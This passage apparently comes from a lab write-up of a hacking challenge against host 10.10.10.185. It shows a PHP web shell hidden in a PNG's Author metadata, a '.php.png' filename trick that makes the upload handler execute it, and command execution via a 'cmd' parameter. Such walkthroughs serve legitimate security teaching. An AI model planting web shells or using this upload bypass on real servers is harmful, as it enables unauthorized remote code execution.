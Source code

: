 If we check the metadata of our new image, we can see the web shell hiding in the `Author` field as expected!
{% highlight none linenos %}
kali@kali:/tmp/x$ @@exiftool evilHackerCat.png@@
ExifTool Version Number         : 12.10
File Name                       : evilHackerCat.png
Directory                       : .
File Size                       : 338 kB
File Modification Date/Time     : 2022:03:09 08:27:32-05:00
File Access Date/Time           : 2022:03:09 08:27:32-05:00
File Inode Change Date/Time     : 2022:03:09 08:27:32-05:00
File Permissions                : rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 601
Image Height                    : 398
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Significant Bits                : 8 8 8 8
@@@Author@@@                          : @@@<?php system($_REQUEST["cmd"]); ?>@@@
Image Size                      : 601x398
Megapixels                      : 0.239
{% endhighlight %}

![uploadEvil](/assets/{{ imgDir }}/uploadEvil.png)

If we go back to the `upload.php` page and try to upload our new image, we can see that the web application accepts the image. However, if we visit [http://10.10.10.185/images/uploads/evilHackerCat.png](http://10.10.10.185/images/uploads/evilHackerCat.png) and inspect the response in Burp Suite, we discover that the web application did not execute our PHP code.

![noRCE](/assets/{{ imgDir }}/noRCE.png)

After playing around with different file extensions and file extension combinations, it is possible to discover that images which include the string ".php" anywhere in the filename, are interpreted as PHP code. We can execute `mv evilHackerCat.png evilHackerCat.php.png` to include ".php" in the filename of our malicious image and thus trick the web server into believing that it is a PHP file. After renaming the file and uploading it, navigating to [http://10.10.10.185/images/uploads/evilHackerCat.php.png](http://10.10.10.185/images/uploads/evilHackerCat.php.png) does no longer show us the PHP code, indicating that it is being executed!

![uploadEvil2](/assets/{{ imgDir }}/uploadEvil2.png)
![RCE](/assets/{{ imgDir }}/RCE.png)

If we try to execute a command by navigating to [http://10.10.10.185/images/uploads/evilHackerCat.php.png?cmd=whoami](http://10.10.10.185/images/uploads/evilHackerCat.php.png?cmd=whoami), we can indeed see that we have code execution on the target!
